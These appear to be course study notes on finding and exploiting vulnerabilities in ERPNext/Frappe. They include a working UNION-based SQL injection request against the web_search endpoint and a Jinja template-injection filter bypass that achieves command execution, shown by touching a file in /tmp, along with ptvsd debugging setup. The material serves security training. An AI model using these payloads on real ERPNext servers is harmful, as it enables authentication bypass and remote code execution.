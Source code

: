 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd



#### 5.5. Discovering SSTI

1. **Identifying the Rendering Function**:
   ```python
   # /home/frappe/frappe-bench/apps/frappe/frappe/utils/jinja.py
   def render_template(template, context, is_path=None, safe_render=True):
       from frappe import get_traceback, throw
       from jinja2 import TemplateError

       if not template:
           return ""

       if (is_path or template.startswith("templates/") or (template.endswith('.html') and '\n' not in template)):
           return get_jenv().get_template(template).render(context)
       else:
           if safe_render and ".__" in template:
               throw("Illegal template")
           try:
               return get_jenv().from_string(template).render(context)
           except TemplateError:
               throw(title="Jinja Template Error", msg="<pre>{template}</pre><pre>{tb}</pre>".format(template=template, tb=get_traceback()))
   ```

2. **Bypassing SSTI Filters**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r }}
   ```

#### 5.6. Exploiting SSTI

1. **Discovering Remote Command Execution Method**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r[420] }}
   ```

2. **Gaining Remote Command Execution**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
   ```
   ```bash
   frappe@ubuntu:~$ ls -lh /tmp/das-ist-walter 
   -rw-rw-r-- 1 frappe frappe 0 Jan 11 10:31 das-ist-walter
   ```

### Summary
- **SQL Injection**: Found by searching for SQL queries in functions exposed to unauthenticated users. Exploited to bypass authentication.
- **SSTI**: Discovered by testing template rendering functionality and bypassing input filters. Exploited to achieve remote code execution.
```

---

### Chapter Summary

In this chapter, you should learn how to:

1. **Identify and exploit SQL Injection vulnerabilities**: Understand how to discover and exploit SQL Injection to bypass authentication and gain access to sensitive areas of the application.

2. **Discover and exploit Server-Side Template Injection (SSTI)**: Learn how to identify SSTI vulnerabilities, bypass filters, and execute arbitrary code on the server.

3. **Configure debugging environments**: Set up remote debugging for the ERPNext application using Visual Studio Code to facilitate vulnerability discovery and exploitation.

4. **Understand MVC and Metadata-driven design patterns**: Grasp the concepts of MVC and Metadata-driven patterns in the context of web applications like ERPNext.

5. **Navigate HTTP routing and whitelisted functions**: Learn how HTTP routing is implemented in Frappe/ERPNext and how to identify whitelisted functions that can be exploited.

6. **Handle MariaDB query logging**: Configure MariaDB to log queries, aiding in the identification of SQL injection points.

Here's a summary of the important points with code snippets and mermaid diagrams:

### Code Snippets

#### SQL Injection

**SQL Injection Payload:**
```http
POST /api/method/frappe.utils.global_search.web_search HTTP/1.1
Host: erpnext:8000
Content-Type: application/x-www-form-urlencoded

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT 1,2,3,4,5#
```

**SQL Injection Query:**
```sql
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,5#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
LIMIT 20 OFFSET 0
```

#### SSTI Exploitation

**SSTI Filter Bypass:**
```jinja
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
```

#### Setting Up Remote Debugging

**Installing ptvsd:**
```bash
frappe@ubuntu:~$ /home/frappe/frappe-bench/env/bin/pip install ptvsd
```

**Editing Procfile:**
```bash
frappe@ubuntu:~$ cat /home/frappe/frappe-bench/Procfile
#web: bench serve --port 8000
```

**Enabling Debugger in app.py:**
```python
import ptvsd
ptvsd.enable_attach(redirect_output=True)
print("Now ready for the IDE to connect to the debugger")
ptvsd.wait_for_attach()


